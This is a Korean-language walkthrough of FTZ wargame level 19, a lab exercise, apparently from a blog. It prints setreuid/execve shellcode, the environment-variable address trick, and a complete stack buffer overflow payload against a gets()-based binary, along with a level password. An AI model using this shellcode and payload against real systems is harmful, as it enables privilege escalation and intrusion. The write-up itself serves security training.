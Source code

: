 # FTZ Level19

#### ID : level19 PW: king poetic
<br>

우선 hint의 내용을 보자<br>
```cat hint```<br>
```c
#include <stdio.h>

main()
{
      char buf[20];
      gets(buf);
      printf("%s\n", buf);
}
```
전 단계와 비교하면 엄청 간단해졌다.!!!<br>
하지만 setreuid 함수가 없으므로 주로 사용하던 25byte 쉘코드가 아닌 setreuid가 포함된 41byte 쉘코드를 사용하자.<br>

우리의 목적을 생각해보자.<br>
1. buf 위치 찾기
2. 쉘 코드 환경변수 등록 후 주소 확인
3. ret 환경변수 주소로 덮기
3. 공격!


이제 쉘 코드를 등록하고 주소를 찾아보자.<br>
\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80<br>

```export shellcode=$(python -c 'print "\n90"*20+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')```<br>
vi에디터를 이용해 쉘 코드의 주소값을 받아오는 코드를 작성한다.<br>
```vi shell.c```<br>
```c
#include <stdio.h>

int main()
{
    printf("%p\n", getenv("shellcode"));
    return 0;
}
```
```
gcc -o shell shell.c
./shell
```
만든 코드를 실행시키면 쉘 코드의 주소값을 알 수 있다.<br>
필자의 경우 0xbffffc78이 나왔다.<br>

attackme 파일을 tmp로 옮기고 디버깅을 해보자<br>
```
gdb -q attackme
set disassembly-flavor intel
disas main
```<br>
<main+9>를 보면 buf의 위치는 ebp로부터 40만큼 떨어져있다는 것을 알 수 있다.<br>
따라서 sfp 4byte를 포함해 44byte를 채우고 쉘 코드 주소로 덮으면 된다.<br>

그렇다면 우리가 작성할 페이로드는 다음과 같다고 할 수 있다.<br>

**이제 페이로드를 작성해보자.**<br>
```(python -c 'print "A"*44+"\x78\xfc\xff\xbf"';cat)|./attackme```<br>
*(주소는 little endian 방식으로 입력된다)*<br>
<br>
```cd ..``` 다시 원래 디렉토리로 되돌아가서<br>
**공격 실시!**<br>
```(python -c 'print "A"*44+"\x78\xfc\xff\xbf"';cat)|./attackme```<br>
```my-pass```로 비밀번호를 물어보면<br>
Level20 Password is "~~". 라고 나올 것이다!!
